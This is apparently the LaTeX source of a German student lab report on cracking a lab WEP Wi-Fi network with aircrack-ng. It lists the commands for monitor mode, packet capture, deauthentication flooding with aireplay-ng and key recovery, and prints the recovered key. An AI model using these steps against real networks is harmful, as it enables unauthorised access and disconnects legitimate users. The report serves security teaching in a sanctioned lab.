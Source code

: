 \documentclass[12pt,a4paper]{article}
\newenvironment{exercise}
	{\begin{enumerate}[label=\bfseries\alph*).]\bfseries}
{\end{enumerate}}
\newenvironment{answer}{\par\normalfont}{}
\begin{document}
    \section{Aircrack \& Co}
    	\begin{exercise}
    		\item Brechen Sie die im IT-Labor eingerichtete WLAN-Verbindung mit der für Sie vorgesehenen SSID (im Praktikum erfragen) mittels Aircrack unter zu Hilfenahme der Datei Password.txt.
    		Beschreiben Sie kurz die einzelnen Schritte ihrer Vorgehensweise.
    			\begin{answer}
    				Wir haben folgende Schritte durchgeführt und die AP 'ITS-WEP' geknackt. Das Passwort ist 
    				\begin{lstlisting}
ED:98:ED:38:DF:BB:C3:BB:B0:D2:8C:62:B3
    				\end{lstlisting}
    				\begin{enumerate}[label=\alph*.]
    					\item Mit Airmon-ng die Netzwerkkarte zu promiscuous versetzen 
    					\begin{lstlisting}
airmon-ng start wlan0
    					\end{lstlisting}
    					\item WLAN mit WEP identifizieren und Netzwerkverkehr mitschneiden. 
    					\begin{lstlisting}
airodump-ng wlan0mon --ivs -c {CH} --bssid {target_ssid} -w {file/to/save}
						\end{lstlisting}
						\item Die Menge an Netzwerkverkehr(bzw. ARP-Verkehr) kann durch 2 Arten erhöht werden. Entweder durch Abmelden des zulässige Clients oder Versuch einer falschesten Authentifizierung am AP. Wir haben leider keine zulässige Geräte vorhanden, wir müssen auf 2. Weise gehen, also eine Aireplay-attacke durchzufuhren.
						\begin{lstlisting}
aireplay-ng wlan0 --deauth 0 -a {target_mac}
						\end{lstlisting}
						Da normalerweise soll viele Gerate nach einer abmedlung wieder dem AP zu verbinden,
						und damit können wir genug ARP Requests und ACKs sammeln.
						\item Wenn c.a. 1500 Paket gesammelt wurden, können wir schon mit Aircrack-ng das Passwort zu knacken.
						\begin{lstlisting}
aircrack-ng {.ivs file} -b {target_ssid}
						\end{lstlisting}
    				\end{enumerate}
    			\end{answer}
    		\item (Optional) Versuchen Sie, da Sie nun den PSK kennen, die Verkehre mittels eines geeigneten Tools (z.B.Wireshark) aufzuzeichnen und zu entschlüsseln.
    		
    		\item (Optional) Machen Sie sich mit WPS-Pin-Verfahren vertraut. Versuchen Sie die WLAN-Verbindung
    		mittels WPS anzugreifen.
    		\begin{answer}
    			Nicht gemacht.
    		\end{answer}
    	\end{exercise}
\end{document}
